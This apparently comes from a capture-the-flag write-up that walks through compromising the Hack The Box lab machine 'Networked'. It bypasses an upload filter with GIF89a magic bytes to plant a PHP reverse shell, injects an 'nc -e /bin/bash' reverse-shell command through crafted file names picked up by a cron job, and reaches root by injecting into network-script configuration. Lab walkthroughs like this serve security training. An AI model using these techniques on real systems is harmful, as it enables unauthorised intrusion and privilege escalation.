 <center><h1>Networked</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>
- Use a file upload to upload our reverse shell to the system
- Exploit a running cronjob that runs a php file every couple minutes
- Use a file that can be run as root to modify the contents of the <b>/etc/sysconfig/network-scripts/ifcfg-guly</b> to give us a reverse shell as root

First we start with an Nmap scan
```
# nmap -sV -sC -T4 -p- 10.10.10.146
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-20 11:24 EDT
Nmap scan report for 10.10.10.146
Host is up (0.060s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.49 seconds
```
Only a couple ports open. Lets check out port 80. Navigating to the webp age we don't see much.

<center><img src="/htb/networked/home.png"></center>
<br>
Running a <b>gobuster</b> will give us a few results.
```
# gobuster dir -u http://10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        20
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2019/09/20 11:36:02 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)
```
So there are a few directories. If we going to the <b>/uploads.php</b> page we will be greeted with a file upload

<center><img src="/htb/networked/fileupload.png"></center>
<br>
Trying to upload a php reverse shell will get us and <b>invalid image file</b> message. We are going to have to sneak the shell onto the system. To do this we can append <b>GIF89a</b> to the top of the file and all change the extension from <b>.php</b> to <b>.php.jpeg</b>
```
GIF89a                                                                                                 
<?php                                                                                                  
// php-reverse-shell - A Reverse Shell implementation in PHP
```
Upload the file and you should be greeted with a message saying the upload was successful

<center><img src="/htb/networked/successful.png"></center>
<br>
If you navigate to <b>http://10.10.10.146/photos.php</b> then you should see our uploaded file. Now before we trigger the shell we need to set up our <b>nc</b> listener.

<center><img src="/htb/networked/photos.png"></center>
<br>
To trigger the shell navigate to <b>https://10.10.10.146/uploads/{name of file}</b>. If done correctly you should see a shell open
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:39074.
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 17:49:42 up 25 min,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```
If we do a quick <b>whoami</b> it shows that we have a low privileged shell as the user <b>apache</b>. If we navigate to <b>/home/user/guly</b> then we can see the user.txt file but we are unable to read it. There are also a couple of other interesting files in the home directory
```
sh-4.2$ whoami
whoami
apache

sh-4.2$ ls /home/guly
ls /home/guly
check_attack.php
crontab.guly
user.txt
```
Reading the <b>crontab.guly</b> and the <b>check_attack.php</b> file there are a few things we should note. The <b>crontab.guly</b> is telling us that there is a cronjob running every 3 minutes that executes <b>check_attack.php</b>. The <b>check_attack.php</b> file basically reads every file in the <b>/var/www/html/uploads</b> directory and then deletes it.
```
bash-4.2$ cat crontab.guly
*/3 * * * * php /home/guly/check_attack.php

bash-4.2$ cat check_attack.php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```
What we can exploit in this code is the <b>exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");</b>. Since it reads every file in the directory as a parameter then we can create a file that has the name of a command and instead of deleting the file it will run the command for us. There are two ways we can name the file. One is using base64 encoding and another is using the <b>$SHELL</b> variable as a reference to <b>/bin/sh</b>

<b>Base64</b>
```
# echo "nc -e /bin/bash 10.10.14.21 10001" | base64
bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg==

bash-4.2$ touch test\;base64\ -d\ \<\<\<\ bmMgLWUgL2Jpbi9iYXNoIDEwLjEwLjE0LDIxIDEwMDAxCg\=\=\ \|\ sh\;
```
<b>$SHELL</b>
```
bash-4.2$ touch test\;nc\ \-e\ \$SHELL\ 10.10.14.21\ 10001\ \|\ sh\;
```
After a few minutes you should see a shell open up. If we run <b>whoami</b> you will see that we are now the user <b>guly</b>
```
# nc -lvnp 10001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10001
Ncat: Listening on 0.0.0.0:10001
Ncat: Connection from 10.10.10.146.
Ncat: Connection from 10.10.10.146:52116.

whoami
guly
```
From here you can grab the user flag. Now onto root. If you type <b>sudo -l</b>, it turns out we have <b>sudo</b> rights to run the script <b>/usr/local/sbin/changename.sh</b>
```
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```
Running the script shows that it just asks us for a bunch of input.
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
test
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.
```
Now lets take a look at the actual file.
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
Reading the script there is something that stands out. It writes the input that you give to the script to <b>/etc/sysconfig/network-scripts/ifcfg-guly</b>. Doing a quick google search on how this can be exploited reveals *[this](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)*.

After reading that article you should have a pretty good idea of what to do
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
Network /bin/bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
[root@networked network-scripts]# whoami
root
```
Now that we are root we can read the <b>root.txt</b> file.
<br><br><br><br>
